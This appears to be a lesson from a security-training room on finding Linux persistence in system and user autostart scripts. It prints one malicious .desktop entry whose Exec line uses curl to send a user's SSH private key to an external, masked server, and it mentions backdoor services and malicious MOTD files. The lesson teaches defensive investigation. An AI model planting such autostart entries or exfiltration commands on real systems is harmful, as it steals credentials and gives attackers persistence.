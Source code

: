 Autostart scripts, as the name implies, are scripts or commands executed automatically when a system boots up or a user logs in. These scripts are typically used to launch certain programs or commands automatically without manual intervention on login. User-specific autostart scripts differ from cronjobs and services in that they are tailored to run tasks upon system startup or user login rather than at scheduled intervals like cronjobs or continuously like services. They are crucial in automating the initialisation process of various applications or utilities, ensuring that essential components are up and running without requiring manual intervention.

There are generally two types of autostart scripts in Linux systems:

**System-wide autostart scripts**

These scripts are executed when the operating system boots up before users log in. They are often found in directories like `/etc/init.d/`, `/etc/rc.d/`, or `/etc/systemd/system/`. System-wide autostart scripts are typically used to start system services or daemons, similar to the unit files covered in the previous task.

**User-specific autostart scripts**

These scripts are executed when a **user** logs into their account. They are usually found in directories like `~/.config/autostart/` or `~/.config/` (under various subdirectories). User-specific autostart scripts are commonly used to launch user-specific programs or applications upon login.

Like with all of the components we've discussed, attackers can target autostart scripts for various reasons. If an attacker can modify or create autostart scripts, they may be able to abuse this to achieve persistence, install backdoors, disguise malware, or execute privileged commands. For example, by injecting malicious commands or binaries to autostart scripts, attackers can execute a reverse shell in the context of a service account or a user, or abuse permissions to escalate privileges. As such, analysts need to be able to review and harden autostart scripts to detect anomalies and prevent abuse.

Identifying System Autostart Scripts

**/etc/init.d/**

This directory typically contains scripts for system service management in traditional SysV init systems and is primarily responsible for starting, stopping, restarting, and managing system services. Each script corresponds to a specific service and follows a standardised naming convention. For example, you might find scripts like `apache2`, `mysql`, or `ssh`, which control the Apache web server, MySQL database server, and OpenSSH server, respectively. These scripts are usually written in Bash or another shell scripting language.

**/etc/systemd/system/**

This directory is related to the systemd init system, which has become the default init system in many modern Linux distributions. As discussed in the previous task, services are defined by unit files stored in this directory. They specify various parameters and actions related to a service, such as its dependencies, startup behaviour, environment variables, and more.

For example, we can identify the `b4ckd00rftw.service` unit file in `/etc/systemd/system/b4ckd00rftw.service`, another way to investigate potentially malicious or altered services.

Identifying User Autostart Scripts

Many desktop environments place autostart scripts in the user's home directory. As such, they can be a hiding spot for user-targeted malware. Accessing other users' home directories typically requires elevated privileges, such as using `sudo` or `su` commands. As an investigator, you would need appropriate permissions to access these directories. In this case, the **investigator** user is in the **sudoers** group.

**~/.config/autostart/**

The autostart scripts' syntax is usually in the form of `.desktop` files, which are plain text files with a specific format. For example, suppose a user wants to automatically launch a custom script that sets up their development environment upon logging into their Linux desktop. They've written a shell script named `setup_dev_env.sh`, located in their home directory, that updates necessary dependencies, sets up environment variables, and launches their IDE and code editor applications. To automate this process, they can create a `.desktop` file inside `~/.config/autostart/` with the following content:

Example .desktop File

```shell-session
[Desktop Entry]
Type=Application
Name=Setup Development Environment
Exec=/bin/bash -c "/home/eduardo/setup_dev_env.sh"
```

To break down the important syntax of this file in more detail:

- **[Desktop Entry]:** This is the standard file header indicating a desktop autostart file.
- **Name=Setup Development Environment:** The name of the autostart entry.
- **Exec=/bin/bash -c "/home/eduardo/setup_dev_env.sh":** The command to execute on startup. Here, `/bin/bash -c` executes the `setup_dev_env.sh` script using **Bash**.

During an investigation of this nature, we should quickly list the autostart scripts for all users on the system. Once we identify any entries, we should analyse them further to see what scripts or commands they are performing. To do so, we can run a command like:

Enumerating User Autostart Scripts

```shell-session
investigator@tryhackme:~$ ls -a /home/*/.config/autostart
/home/eduardo/.config/autostart:
.  ..  dev.desktop

/home/janice/.config/autostart:
.  ..  keygrabber.desktop
```

From the above output, we have identified a couple of entries. Specifically, `keygrabber.desktop` under **Janice**'s home directory looks interesting. To view the contents of the autostart entry, we can `cat` the file:

Viewing Janice's Autostart Script

```shell-session
investigator@tryhackme:~$ cat /home/janice/.config/autostart/keygrabber.desktop
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://*****.****-**-********.***/**_***"
```

After analysing the configuration script, it's safe to say we found another persistence method. Specifically, the script uses the `curl` command under the Exec entry to issue a POST request to an external URL. More interestingly, however, the contents of `/home/janice/.ssh/id_rsa` are being sent to the server via the POST request. The `id_rsa` file is Janice's private SSH key and should never be shared, as anyone with the key can connect as Janice to the host.

This configuration suggests that upon startup, it will execute a curl command to send the contents of Janice's SSH private key (id_rsa file) to an attacker-controlled endpoint.

Other user-related configuration files that should be investigated include:

- **~/.bash_history:** This file contains a history of commands executed by the user in the Bash shell, providing insights into their activities and commands executed.
- **~/.ssh:** This directory contains SSH-related files, including a user's SSH keys (**id_rsa**, **id_rsa.pub**), known_hosts, and authorized_keys.
- **~/.profile:** This file typically contains user-specific initialisation commands and settings for their shell environment, and similar to autostart scripts, could contain malicious commands.
- **Message of the Day (MOTD)** While not directly a user-configured file, the Message of the Day is the message that is presented to the user when a user connects to a Linux server via SSH or a serial connection. Linux systems contain several default MOTD files in the `/etc/update-motd.d/` and `/usr/lib/update-notifier/` directories. Like autostart scripts, attackers can create malicious MOTD files that grant them persistence onto the target every time a user connects to the system by executing a backdoor script or command.

The [Linux File System Analysis](https://tryhackme.com/room/linuxfilesystemanalysis) room investigates some of these locations more thoroughly.